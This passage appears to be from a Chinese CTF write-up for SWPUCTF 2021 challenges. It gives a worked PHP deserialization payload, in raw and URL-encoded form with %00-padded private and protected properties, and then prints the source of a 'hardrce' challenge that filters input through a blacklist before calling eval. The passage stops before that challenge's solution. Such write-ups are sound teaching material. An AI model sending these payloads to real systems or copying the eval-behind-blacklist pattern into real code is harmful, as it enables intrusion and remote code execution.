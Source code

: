 ```php
$c->w22m = 'Getflag';
echo serialize($b);
?>
```

但是序列化出的Payload不能直接发。

参考文章：

https://wiki.wgpsec.org/knowledge/ctf/php-serialize.html

由于存在private和protected变量，所以序列化出的字符串含有空字符，于是在传参的时候必须把URL编码后的%00补上。

> private反序列化后是%00(类名)%00(变量名)，protect是%00*%00(变量名)

如：

序列化后：

```
O:4:"w22m":1:{s:4:"w00m";O:4:"w33m":2:{s:4:"w00m";O:4:"w44m":2:{s:11:"w44madmin";s:4:"w44m";s:9:"*passwd";s:5:"08067";}s:4:"w22m";s:7:"Getflag";}}
```

补全后：

```
O:4:"w22m":1:{s:4:"w00m";O:4:"w33m":2:{s:4:"w00m";O:4:"w44m":2:{s:11:"%00w44m%00admin";s:4:"w44m";s:9:"%00*%00passwd";s:5:"08067";}s:4:"w22m";s:7:"Getflag";}}
```

又或者在输出序列化字符串的时候直接进行URL编码亦可以：

```
echo urlencode(serialize($b));
```

输出：

```
O%3A4%3A%22w22m%22%3A1%3A%7Bs%3A4%3A%22w00m%22%3BO%3A4%3A%22w33m%22%3A2%3A%7Bs%3A4%3A%22w00m%22%3BO%3A4%3A%22w44m%22%3A2%3A%7Bs%3A11%3A%22%00w44m%00admin%22%3Bs%3A4%3A%22w44m%22%3Bs%3A9%3A%22%00%2A%00passwd%22%3Bs%3A5%3A%2208067%22%3B%7Ds%3A4%3A%22w22m%22%3Bs%3A7%3A%22Getflag%22%3B%7D%7D
```

#### [SWPUCTF 2021 新生赛]hardrce

源码：

```php
<?php
header("Content-Type:text/html;charset=utf-8");
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['wllm']))
{
    $wllm = $_GET['wllm'];
    $blacklist = [' ','\t','\r','\n','\+','\[','\^','\]','\"','\-','\$','\*','\?','\<','\>','\=','\`',];
    foreach ($blacklist as $blackitem)
    {
        if (preg_match('/' . $blackitem . '/m', $wllm)) {
        die("LTLT说不能用这些奇奇怪怪的符号哦！");
    }}
if(preg_match('/[a-zA-Z]/is',$wllm))
{
    die("Ra's Al Ghul说不能用字母哦！");
}
echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？";
eval($wllm);
}
else
```